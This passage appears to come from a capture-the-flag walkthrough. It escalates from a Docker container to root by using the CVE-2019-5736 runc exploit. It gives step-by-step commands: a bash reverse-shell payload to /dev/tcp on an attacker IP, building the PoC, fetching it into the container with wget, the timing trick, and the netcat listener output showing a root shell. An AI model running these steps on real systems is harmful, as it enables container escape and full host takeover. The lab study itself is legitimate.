 Then downloaded the PoC code.

```none
wget https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go
```

The instructions on the repo noted that the only change needed is to the `payload` variable - to set the command to be executed. I changed the payload to the following reverse bash shell.

```none
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.3/9001 0>&1"
```

Then build the source.

```none
go build main.go
```

This gives us a binary named `main`. Started a Python HTTP server on the attacker's machine, in the same file with the compiled `main` program. On the target machine, in the existing SSH session, entered the Docker container.

```none
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Then fetch the exploit, and make it executable.

```none
wget http://10.10.14.127:8000/main
chmod +x main
```

At this point, it is good to have a few things ready.

- Netcat listener on the attacker system
- One SSH session on the target ready to run the exploit
- Another SSH session on the target is ready to run a command in the container

Now, run the exploit in the container.

```none
./main
```

Then, on the other SSH session on the target, run `sh` - also in the container.

```none
sudo docker exec -it webapp-dev01 /bin/sh
```

This should be done right after seeing:

```none
[+] Overwritten /bin/sh successfully
```

Then the netcat session will have a connection as the `root` user.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.179.80] 33572
bash: cannot set terminal process group (23239): Inappropriate ioctl for device
bash: no job control in this shell
<21f374998e084787946fe466c598cd84a99cd2d0ad8f2737b# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
<21f374998e084787946fe466c598cd84a99cd2d0ad8f2737b#
```
